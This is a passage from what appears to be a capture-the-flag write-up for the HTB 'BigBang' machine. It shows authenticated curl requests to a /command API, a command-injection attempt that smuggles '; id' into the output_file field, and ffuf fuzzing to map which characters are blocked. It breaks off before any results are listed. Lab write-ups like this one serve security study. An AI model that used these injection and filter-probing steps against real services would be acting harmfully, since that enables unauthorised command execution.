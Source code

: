 Test with token:

```bash
$ curl -d '{"test": "1"}' -H "Content-Type: application/json" -H "Authorization: Bearer $token" app.bigbang.htb:9090/command
{"error":"Invalid command"}
```

Test valid command:

```bash
$ curl -d '{"command": "move", "x": 1, "y": 2, "z": 3}' \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer $token" \
  app.bigbang.htb:9090/command
{"status":"developer is moving to coordinates (1.0, 2.0, 3.0)"}
```

#### TakePictureActivity

```bash
$ curl -d '{"command": "send_image", "output_file": "test.png"}' \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer $token" \
  app.bigbang.htb:9090/command
{"error":"Error generating image: "}
```


## Command Injection

### Bad Characters

When trying to inject a command via `output_file`, the server blocks dangerous characters:

```bash
$ curl app.bigbang.htb:9090/command \
  -d '{"command": "send_image", "output_file": "test.png; id"}' \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer $token"
{"error":"Output file path contains dangerous characters"}
```

#### Fuzzing for Blocked Characters

Used `ffuf` to test for filtered characters:

```bash
$ ffuf -u http://app.bigbang.htb:9090/command \
  -d '{"command": "send_image", "output_file": "test.pngFUZZ"}' \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer $token" \
  -w /opt/SecLists/Fuzzing/alphanum-case-extra.txt \
  -mr dangerous
```

Blocked characters found:
